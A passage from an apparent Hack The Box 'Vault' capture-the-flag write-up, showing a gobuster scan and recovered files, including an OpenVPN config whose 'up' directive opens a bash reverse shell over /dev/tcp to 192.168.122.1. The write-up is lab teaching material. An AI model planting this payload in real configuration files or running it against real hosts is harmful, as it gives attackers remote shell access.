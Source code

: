 ![](/assets/images/htb-writeup-vault/vpnconfig.png)

With gobuster, we find additional information in `/notes`:

```
# gobuster -q -t 50 -w big.txt -u http://127.0.0.1 -s 200,204,301,302,307
/notes (Status: 200)
```

![](/assets/images/htb-writeup-vault/notes.png)

We can grab `http://127.0.0.1/123.ovpn`:

```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```

And `http://127.0.0.1/script.sh`:

```
#!/bin/bash
sudo openvpn 123.ovpn
```

So it seems that the `123.ovpn` file contains a reverse shell payload.
